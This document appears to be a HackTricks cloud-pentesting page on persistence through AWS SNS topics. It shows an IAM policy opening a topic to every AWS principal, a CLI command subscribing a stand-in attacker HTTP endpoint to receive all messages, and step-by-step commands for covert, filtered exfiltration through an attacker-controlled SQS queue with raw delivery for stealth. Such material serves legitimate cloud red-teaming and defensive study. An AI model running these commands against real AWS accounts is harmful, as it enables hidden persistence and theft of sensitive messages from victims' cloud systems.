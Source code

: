 # AWS - SNS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

For more information check:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### Persistence

When creating a **SNS topic** you need to indicate with an IAM policy **who has access to read and write**. It's possible to indicate external accounts, ARN of roles, or **even "\*"**.\
The following policy gives everyone in AWS access to read and write in the SNS topic called **`MySNS.fifo`**:

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "__default_statement_ID",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "SNS:Publish",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:DeleteTopic",
        "SNS:ListSubscriptionsByTopic",
        "SNS:GetTopicAttributes",
        "SNS:AddPermission",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
      "Condition": {
        "StringEquals": {
          "AWS:SourceOwner": "318142138553"
        }
      }
    },
    {
      "Sid": "__console_pub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Publish",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    },
    {
      "Sid": "__console_sub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Subscribe",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    }
  ]
}
```

### Create Subscribers

To continue exfiltrating all the messages from all the topics and attacker could **create subscribers for all the topics**.

Note that if the **topic is of type FIFO**, only subscribers using the protocol **SQS** can be used.

```bash
aws sns subscribe --region <region> \
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

### Covert, selective exfiltration via FilterPolicy on MessageBody

An attacker with `sns:Subscribe` and `sns:SetSubscriptionAttributes` on a topic can create a stealthy SQS subscription that only forwards messages whose JSON body matches a very narrow filter (for example, `{"secret":"true"}`). This reduces volume and detection while still exfiltrating sensitive records.

**Potential Impact**: Covert, low-noise exfiltration of only targeted SNS messages from a victim topic.

Steps (AWS CLI):
- Ensure the attacker SQS queue policy allows `sqs:SendMessage` from the victim `TopicArn` (Condition `aws:SourceArn` equals the `TopicArn`).
- Create SQS subscription to the topic:

  ```bash
  aws sns subscribe --region us-east-1 --topic-arn TOPIC_ARN --protocol sqs --notification-endpoint ATTACKER_Q_ARN
  ```

- Set the filter to operate on the message body and only match `secret=true`:

  ```bash
  aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicyScope --attribute-value MessageBody
  aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicy --attribute-value '{"secret":["true"]}'
  ```

- Optional stealth: enable raw delivery so only the raw payload lands in the receiver:

  ```bash
  aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name RawMessageDelivery --attribute-value true
  ```

- Validation: publish two messages and confirm only the first is delivered to the attacker queue. Example payloads:

  ```json
  {"secret":"true","data":"exfil"}
  {"secret":"false","data":"benign"}
  ```

- Cleanup: unsubscribe and delete the attacker SQS queue if created for persistence testing.

{{#include ../../../../banners/hacktricks-training.md}}
